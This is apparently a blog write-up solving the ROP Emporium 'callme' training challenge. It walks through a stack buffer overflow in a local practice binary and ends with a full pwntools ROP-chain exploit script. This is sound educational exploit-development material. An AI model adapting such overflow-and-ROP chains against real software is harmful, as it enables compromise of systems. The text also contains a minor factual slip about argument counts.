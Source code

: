 ```yaml
---
title: "Return-Oriented Programming - Callme"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.
layout: PostLayout
images: '/static/images/ropemporium/callme.jpg'

---
```


# Introduction

Challenge Description

The goal of this challenge is to understand how  more than one argument is  passed in x64 function. The challenge can be downloaded from the authors website [ropemporium](https://ropemporium.com)

>Reliably make consecutive calls to imported functions.
>Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

>**You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

First we check the binary protections enabled on the callme binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open the **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior of the binary. radare2 is a powerful disassembler/debugging tool in Linux, used for examining the  behavior of programs.

![](/static/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command in to do disassembly at a given function. From the image above, the function **pwnme** looks similar to the previous challenges ret2win and split.

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/static/images/ropemporium/stack.png)


Therefore the next function is read function, which reads for user input and stores in the specified buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From the above disassembled code, we are reading 0x200 bytes from the standard input file descriptor and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, we need to fill our buffer, overwrite the rbp register and control the return address.

For building our ropchain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.

Because the system function receives one argument, we need to look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/static/images/ropemporium/poprdi_callme.png)

Next step is to determine the address of callme_one, callme_two, callme_three functions. For determining the functions address we use gdb to get the memory addresses.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb) 
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme* , we need to disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   ------
   ------
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave  
   0x000000000000092a <+272>:	ret    
End of assembler dump.
(gdb) 
```

From the disassembly code above, we can we are comparing our arguments in which we are passing to callme_one function. if the string values are not equal to values passed to the rdi, rsi and rdx registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with the pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

## Exploit
Fully working rop chain code is as shown below.

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)


callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three


io.writeafter('>', payload)

pwn.info(io.clean().decode())

```

Successful execution of the above code, we get rewarded with a correct flag.


![](/static/images/ropemporium/callme-flag.png)
